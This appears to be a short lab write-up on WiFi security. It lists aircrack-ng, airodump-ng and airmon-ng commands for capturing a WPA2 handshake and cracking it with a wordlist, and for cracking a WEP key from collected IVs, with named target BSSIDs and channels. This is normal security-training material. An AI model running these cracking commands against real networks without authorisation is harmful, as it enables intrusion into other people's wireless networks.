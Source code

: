 # Lab 05 - WiFi Security

## 1 - WP2

BSSID: 00:1C:C2:43:EE:EA


Channel: 1

- Enable monitor mode on the network interface: `airmon-ng start wlp1s0`
- Retrieve the target BSSID: `airodump-ng wlp1s0mon`
- Capture a 4-way handshake: `airodump-ng -c 1 --bssid 00:1C:C2:43:EE:EA -w capture.cap wlp1s0mon`
- Crack the handshake: `aircrack-ng capture.cap-01.cap -w wordlist.txt`

![](img/wpa2.png)

## 2 - WEP

BSSID: 00:12:17:B7:8C:75


Channel: 6

1. Enable monitor mode on the network interface: `airmon-ng start wlp1s0`
2. Capture packets: `airodump-ng -c 6 --bssid 00:12:17:B7:8C:75 -w capture.cap wlp1s0mon`
3. Crack the key after retrieving enough IVs: `aircrack-ng -1 -a 1 -b 00:12:17:B7:8C:75 capture.cap-01.cap`

![](img/wep.png)